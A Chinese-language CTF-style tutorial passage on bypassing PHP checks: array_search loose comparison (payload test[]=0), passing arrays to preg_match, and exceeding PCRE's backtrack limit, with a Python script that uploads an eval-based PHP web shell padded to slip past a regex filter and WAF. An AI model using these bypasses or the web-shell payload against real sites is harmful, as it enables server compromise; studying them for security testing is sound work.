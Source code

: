 先判断传入的是不是数组，然后循环遍历数组中的每个值，并且数组中的每个值不能和 admin 相等，并且将每个值转化为 int 类型，再判断传入的数组是否有 admin，有则返回 flag

payload test[]=0 可以绕过

下面是官方手册对 array_search 的介绍

`mixed array_search ( mixed $needle , array $haystack [, bool $strict = false ] )`

$needle，$haystack 必需，$strict 可选  函数判断 $haystack 中的值是存在 $needle，存在则返回该值的键值 第三个参数默认为 false，如果设置为 true 则会进行严格过滤

```php
<?php
$a=array(0,1);
var_dump(array_search("admin",$a));     // int(0) => 返回键值0
var_dump(array_search("1admin",$a));    // int(1) ==>返回键值1
?>
```

array_search 函数 类似于 == 也就是 `$a=="admin"` 当然是 `$a=0` 当然如果第三个参数为 true 则就不能绕过

---

## preg_match 绕过

**数组绕过**

preg_match 只能处理字符串，当传入的 subject 是数组时会返回 false

**PCRE 回溯次数限制**

```php
<?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(!is_php($input)) {
    // fwrite($f, $input); ...
}
```

pcre.backtrack_limit 给 pcre 设定了一个回溯次数上限，默认为 1000000，如果回溯次数超过这个数字，preg_match 会返回 false

```py
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://1.1.1.1:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

很多基于 PHP 的 WAF，如：
```php
if(preg_match('/SELECT.+FROM.+/is', $input)) {
    die('SQL Injection');
}
```
均存在上述问题，通过大量回溯可以进行绕过。
